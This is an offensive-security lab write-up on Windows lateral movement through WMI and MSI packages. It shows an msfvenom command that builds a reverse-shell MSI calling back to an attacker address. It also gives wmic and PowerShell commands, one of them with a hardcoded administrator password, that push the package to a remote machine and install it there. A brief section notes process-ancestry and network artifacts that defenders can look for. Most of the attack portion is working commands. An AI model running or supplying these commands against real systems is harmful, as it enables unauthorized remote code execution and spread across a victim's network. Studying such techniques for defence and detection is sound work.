 # WMI + MSI Lateral Movement

## Execution

Generating a payload in MSI \(Microsoft Installer Package\):

{% code-tabs %}
{% code-tabs-item title="attacker@local" %}
```csharp
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.0.0.5 LPORT=443 -f msi > evil64.msi
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../.gitbook/assets/screenshot-from-2018-10-19-17-31-00.png)

I tried executing the .msi payload like so, but got a return code `1619` and quick search on google showed  nothing usefull:

{% code-tabs %}
{% code-tabs-item title="attacker@remote" %}
```csharp
wmic /node:10.0.0.7 /user:offense\administrator product call install PackageLocation='\\10.0.0.2\c$\experiments\evil64.msi'
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../.gitbook/assets/screenshot-from-2018-10-19-18-45-55.png)

So I had to revert to a filthy way of achieving the goal:

{% code-tabs %}
{% code-tabs-item title="attacker@remote" %}
```csharp
net use \\10.0.0.7\c$ /user:administrator@offense; copy C:\experiments\evil64.msi \\10.0.0.7\c$\PerfLogs\setup.msi ; wmic /node:10.0.0.7 /user:administrator@offense product call install PackageLocation=c:\PerfLogs\setup.msi
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../.gitbook/assets/peek-2018-10-19-18-41.gif)

Additionally, the same could of course be achieved using powershell cmdlets:

{% code-tabs %}
{% code-tabs-item title="attacker@remote" %}
```csharp
Invoke-WmiMethod -Path win32_product -name install -argumentlist @($true,"","c:\PerfLogs\setup.msi") -ComputerName pc-w10 -Credential (Get-Credential)
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Get a prompt for credentials:

![](../.gitbook/assets/screenshot-from-2018-10-19-19-02-10.png)

and enjoy the code execution:

![](../.gitbook/assets/screenshot-from-2018-10-19-19-02-48.png)

Or if no GUI is available for credentials, a oneliner:

{% code-tabs %}
{% code-tabs-item title="attacker@remote" %}
```csharp
$username = 'Administrator';$password = '123456';$securePassword = ConvertTo-SecureString $password -AsPlainText -Force; $credential = New-Object System.Management.Automation.PSCredential $username, $securePassword; Invoke-WmiMethod -Path win32_product -name install -argumentlist @($true,"","c:\PerfLogs\setup.msi") -ComputerName pc-w10 -Credential $credential
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../.gitbook/assets/screenshot-from-2018-10-19-19-09-42.png)

## Observations

Note the process ancestry: `services > msiexec.exe > .tmp > cmd.exe`:

![](../.gitbook/assets/screenshot-from-2018-10-19-18-46-37.png)

and that the connection is initiated by the .tmp file \(I ran another test, hence another file name\):

![](../.gitbook/assets/screenshot-from-2018-10-19-18-55-53.png)

{% embed url="https://twitter.com/buffaloverflow/status/1002523407261536256" %}

